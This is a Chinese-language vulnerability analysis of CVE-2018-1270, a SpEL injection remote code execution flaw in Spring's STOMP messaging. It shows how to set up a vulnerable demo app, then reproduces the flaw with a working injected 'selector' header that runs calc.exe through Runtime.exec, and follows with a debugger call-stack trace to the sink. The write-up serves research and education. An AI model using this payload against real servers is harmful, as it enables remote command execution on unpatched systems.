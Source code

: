 前置基础
---


相关漏洞
---

### CVE-2018-1270 SpEL Injection RCE

#### 环境搭建

```
git clone git@github.com:spring-guides/gs-messaging-stomp-websocket.git
cd gs-messaging-stomp-websocket
git checkout 6958af0b02bf05282673826b73cd7a85e84c12d3
cd complete
mvn spring-boot:run
```

![image-20211116215130852](vulnerability-research.assets/image-20211116215130852.png)

#### 漏洞复现

篡改app.js的内容，插入恶意selector代码：

```js
function connect() {
    var header  = {"selector":"T(java.lang.Runtime).getRuntime().exec('calc.exe')"};
    var socket = new SockJS('/gs-guide-websocket');
    stompClient = Stomp.over(socket);
    stompClient.connect({}, function (frame) {
        setConnected(true);
        console.log('Connected: ' + frame);
        stompClient.subscribe('/topic/greetings', function (greeting) {
            showGreeting(JSON.parse(greeting.body).content);
        },header);
    });
}
```

![image-20211116215228659](vulnerability-research.assets/image-20211116215228659.png)

然后保存 Ctrl + S，然后点击Connect再随便Send一些字符，成功触发漏洞

![image-20211116215431393](vulnerability-research.assets/image-20211116215431393.png)

#### 漏洞分析

sink处下断点

![image](https://user-images.githubusercontent.com/55024146/161274708-3707482e-3f07-47c2-8a1b-7c638bd826cb.png)

获取调用栈
```java
getRuntime:58, Runtime (java.lang)
invoke0:-1, NativeMethodAccessorImpl (sun.reflect)
invoke:62, NativeMethodAccessorImpl (sun.reflect)
invoke:43, DelegatingMethodAccessorImpl (sun.reflect)
invoke:498, Method (java.lang.reflect)
execute:120, ReflectiveMethodExecutor (org.springframework.expression.spel.support)
getValueInternal:107, MethodReference (org.springframework.expression.spel.ast)
getValueInternal:90, MethodReference (org.springframework.expression.spel.ast)
getValueRef:58, CompoundExpression (org.springframework.expression.spel.ast)
getValueInternal:88, CompoundExpression (org.springframework.expression.spel.ast)
getTypedValue:116, SpelNodeImpl (org.springframework.expression.spel.ast)
getValue:306, SpelExpression (org.springframework.expression.spel.standard)
filterSubscriptions:217, DefaultSubscriptionRegistry (org.springframework.messaging.simp.broker)
findSubscriptionsInternal:186, DefaultSubscriptionRegistry (org.springframework.messaging.simp.broker)
findSubscriptions:127, AbstractSubscriptionRegistry (org.springframework.messaging.simp.broker)
sendMessageToSubscribers:350, SimpleBrokerMessageHandler (org.springframework.messaging.simp.broker)
handleMessageInternal:272, SimpleBrokerMessageHandler (org.springframework.messaging.simp.broker)
handleMessage:241, AbstractBrokerMessageHandler (org.springframework.messaging.simp.broker)
run:138, ExecutorSubscribableChannel$SendTask (org.springframework.messaging.support)
sendInternal:94, ExecutorSubscribableChannel (org.springframework.messaging.support)
send:119, AbstractMessageChannel (org.springframework.messaging.support)
send:105, AbstractMessageChannel (org.springframework.messaging.support)
sendInternal:187, SimpMessagingTemplate (org.springframework.messaging.simp)
doSend:162, SimpMessagingTemplate (org.springframework.messaging.simp)
doSend:48, SimpMessagingTemplate (org.springframework.messaging.simp)
send:108, AbstractMessageSendingTemplate (org.springframework.messaging.core)
convertAndSend:150, AbstractMessageSendingTemplate (org.springframework.messaging.core)
convertAndSend:128, AbstractMessageSendingTemplate (org.springframework.messaging.core)
handleReturnValue:188, SendToMethodReturnValueHandler (org.springframework.messaging.simp.annotation.support)
handleReturnValue:107, HandlerMethodReturnValueHandlerComposite (org.springframework.messaging.handler.invocation)
handleMatch:527, AbstractMethodMessageHandler (org.springframework.messaging.handler.invocation)
handleMatch:497, SimpAnnotationMethodMessageHandler (org.springframework.messaging.simp.annotation.support)
handleMatch:88, SimpAnnotationMethodMessageHandler (org.springframework.messaging.simp.annotation.support)
handleMessageInternal:473, AbstractMethodMessageHandler (org.springframework.messaging.handler.invocation)
handleMessage:409, AbstractMethodMessageHandler (org.springframework.messaging.handler.invocation)
run:138, ExecutorSubscribableChannel$SendTask (org.springframework.messaging.support)
runWorker:1142, ThreadPoolExecutor (java.util.concurrent)
run:617, ThreadPoolExecutor$Worker (java.util.concurrent)
run:745, Thread (java.lang)
```
回溯找到漏洞代码所在位置

![image](https://user-images.githubusercontent.com/55024146/161275489-36c39c81-c66d-43df-8c1b-d02598fe27ea.png)

建立连接时会将payload通过add方法添加到subs中，此时并没有触发。

![image](https://user-images.githubusercontent.com/55024146/161279463-74534fc6-57be-4990-aa86-e6413bf5bd8d.png)

然后在建立连接后，发送任意内容的消息，在filterSubscriptions方法中获取连接配置(spel injection payload)，然后调用expression.getValue()，触发rce。

![image](https://user-images.githubusercontent.com/55024146/161277764-376c9ddc-dd7c-41f0-a6f1-fbb6a61859db.png)


